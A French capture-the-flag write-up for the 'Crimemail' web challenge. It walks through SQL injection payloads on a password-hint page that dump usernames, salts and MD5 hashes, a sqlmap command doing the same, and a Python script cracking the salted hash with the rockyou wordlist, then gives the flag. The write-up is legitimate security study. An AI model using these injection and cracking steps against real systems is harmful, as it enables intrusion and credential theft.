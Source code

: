 **Crimemail - WEB**

Enoncé :
```
Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.

Let's see if you can hack your way in his account...
```

![Alt](img/accueil.png "Accueil")

Sur la page **forgot.php** on trouve rapidement une injection SQL :

```
username = admin'
```

![Alt](img/detect.png "Detection")

On regarde si on peut l'exploiter facilement :
```
username = admin '||1#
```
![Alt](img/sqli.png "SQLI")

On récupère le nom de la base de données :

```
username = admin 'union select database()#
```

Resultat :

```
Here is the requested hint for this username:

array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(2) "db"
  }
}

```

Injection :

```
username= admin' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables where table_schema ='db'#
```

Resultat :

```
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(5) "users"
  }
}
```

Injection :

```
admin' UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns where table_schema ='db'#
```
Resultat :

```
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(39) "userID,username,pass_salt,pass_md5,hint"
  }
}
```

Injection :

```
admin' UNION SELECT username FROM users#
```

Resultat :
```
array(5) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(9) "p.escobar"
  }
  [1]=>
  array(1) {
    ["hint"]=>
    string(7) "g.dupuy"
  }
  [2]=>
  array(1) {
    ["hint"]=>
    string(8) "a.capone"
  }
  [3]=>
  array(1) {
    ["hint"]=>
    string(8) "c.manson"
  }
  [4]=>
  array(1) {
    ["hint"]=>
    string(8) "c.hackle"
  }

```

Injection :

```
admin' UNION SELECT pass_salt FROM users where username='c.hackle'#
```

Resultat :

```
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(4) "yhbG"
  }
}
```

Injection :

```
admin' UNION SELECT pass_md5 FROM users where username='c.hackle'#
```
Resultat :
```
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(32) "f2b31b3a7a7c41093321d0c98c37f5ad"
  }
}
```

Sinon une variante avec sqlmap : 

```
sqlmap.py -u https://crimemail.ctf.insecurity-insa.fr/hint.php --data="username=C"
    
    Database: db
Table: users
[5 entries]
+--------+-----------------------------+-----------+----------------------------------+-----------+
| userID | hint                        | username  | pass_md5                         | pass_salt |
+--------+-----------------------------+-----------+----------------------------------+-----------+
| 1      | NULL                        | p.escobar | c4598aadc36b55ba1a4f64f16e2b32f1 | Jdhy      |
| 2      | NULL                        | g.dupuy   | 0fd221fc1358c698ae5db16992703bcd | Kujh      |
| 3      | NULL                        | a.capone  | 23afc9d3a96e5c338f7ba7da4f8d59f8 | hTjl      |
| 4      | NULL                        | c.manson  | fe3437f0308c444f0b536841131f5274 | YbEr      |
| 5      | I don't need any hints man! | c.hackle  | f2b31b3a7a7c41093321d0c98c37f5ad | yhbG      |
+--------+-----------------------------+-----------+----------------------------------+-----------+
``` 
    


Maintenant on cherche la correspondance du hash dans le dictionnaire rockyou :

```PYTHON

import hashlib

passlist = open("/home/ark1nar/tools/wordlists/rockyou.txt", 'r')
for password in passlist:
    m = hashlib.md5()
    m.update(password[:-1] + "yhbG")
    if m.hexdigest() == "f2b31b3a7a7c41093321d0c98c37f5ad":
        print 'FOUND:' + password


```

On trouve rapidement le mot de passe : pizza

FLAG :

```
UNKNOWN SENDER says:

Meet me at INSA{s3cr3t_l0cat10n}
```


By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```

